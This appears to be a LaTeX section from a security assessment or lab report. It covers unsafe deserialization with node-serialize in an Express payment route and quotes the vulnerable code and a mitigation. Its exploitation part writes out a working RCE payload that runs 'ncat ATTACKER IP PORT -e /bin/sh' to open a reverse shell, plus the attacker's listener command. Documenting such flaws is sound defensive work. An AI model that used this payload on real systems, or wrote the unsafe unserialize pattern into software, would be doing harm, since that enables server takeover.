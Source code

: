 \documentclass[]{article}
\begin{document}
\subsubsection{Deserialization of untrusted data}
\label{subsubsec:deserialization_of_untrusted_data}
\textbf{Description:} This vulnerability belongs to the category of {\it software and data integrity failures}, it is caused by the deserialization 
of data provided by an user using the \texttt{node-serialize} package. 
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/transactions.js} file of the Express backend. At line 3, \texttt{node\_serialize.unserialize} 
is used to deserialize the body of the POST request sent by the seller to request a payment to an user. This package internally uses \texttt{eval}, this can be 
exploited providing a specific string in input to execute arbitrarty code in the server.
\begin{lstlisting}
router.post("/requestPayment", function (req, res) {
    if (req.session.user !== undefined && req.session.user.role === "seller") {
        const obj = node_serialize.unserialize(req.body);
        dbapi.getUserRoleUserByUsername(obj.usernameBuyer)
            .then((role) => {
                if (role === "user") {
                    dbapi.addTransaction(req.session.user.username, obj.usernameBuyer, obj.amount)
                        .then(() => {
                            res.status(200).send();
                        })
                        .catch(() => {
                            res.status(500).send();
                        });
                }
                else {
                    res.status(500).send();
                }
            });
    }
    else {
        res.status(401).send();
    }
});
\end{lstlisting}
\textbf{Exploitation:} The exploit aims to open a reverse shell which allows the attacker to take the control of the server. The attacker needs to login 
as a valid seller then it has to send a POST request to request a payment to an user with a specific body. Using as body 
\{"rce":"\_\$\$ND\_FUNC\$\$\_function()\{require('child\_process').exec('ncat ATTACKER IP PORT -e /bin/sh');\}()"\}
during the deserialization process, anything after the tag \texttt{\$\$ND\_FUNC\$\$} goes directly to \texttt{eval} function. 
Using the immediately-invoked function expression, \texttt{function()\{...\}} will be automatically invoked after it will be defined 
during deserialization. The attacker can listen to the incoming connection using the command \texttt{ncat -lvp <PORT>}, then it will 
have access to the shell of the server. 
\\
\textbf{Mitigation:} The vulnerability can be fixed using another package to deserialize data or extracting directly the data from the request body. 
\end{document}
